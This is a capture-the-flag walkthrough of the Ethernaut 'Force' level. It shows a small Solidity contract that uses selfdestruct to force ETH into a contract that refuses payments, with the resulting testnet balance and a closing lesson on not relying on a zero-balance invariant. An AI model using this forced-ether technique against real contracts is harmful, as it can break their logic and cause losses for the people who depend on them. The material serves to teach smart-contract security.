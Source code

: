 # 07. Force
<sup>Difficulty 5/10</sup>

Some contracts will simply not take your money `¯\_(ツ)_/¯`

The goal of this level is to make the balance of the contract greater than zero.

Things that might help:

- Fallback methods
- Sometimes the best way to attack a contract is with another contract.
- See the Help page above, section "Beyond the console"

## Solution

Amazing contract!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

We cannot transfer or send ETH to the contract, all transaction fails. Even the fallback method in this case is useless. We need to find a way to send money without trigger the receive function.

Selfdestruct method comes in help! 

From the [solidity docs](https://docs.soliditylang.org/en/develop/units-and-global-variables.html#contract-related):

> Destroy the current contract, sending its funds to the given Address and end execution. Note that selfdestruct has some peculiarities inherited from the EVM:
> - the receiving contract’s receive function is not executed.
> - the contract is only really destroyed at the end of the transaction and revert s might “undo” the destruction.

So we need to create a new contract, fund it with some ETH and then detroy it in favor of the hungry cat.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
contract FeedTheCat {
    address contractAddress = 0x3e5073183ED8C3B96dA7759001152fCa489d3f4B; // Force contract address

    function feedMe() public payable returns (bool success) {
        return true;
    }

    function feedCat() public {
        selfdestruct(payable(contractAddress)); // We need to transform the address to payable
    }
}
```

Fund it with some ETH and then call `feedCat` function

From Rinkeby Etherscan:
```
Contract 0x3e5073183ED8C3B96dA7759001152fCa489d3f4B 
Contract Overview
Balance: 0.001 Ether
```

Actually nice challenge.

## OZ Corner

In solidity, for a contract to be able to receive ether, the fallback function must be marked `payable`.

However, there is no way to stop an attacker from sending ether to a contract by self destroying. Hence, it is important not to count on the invariant `address(this).balance == 0` for any contract logic.
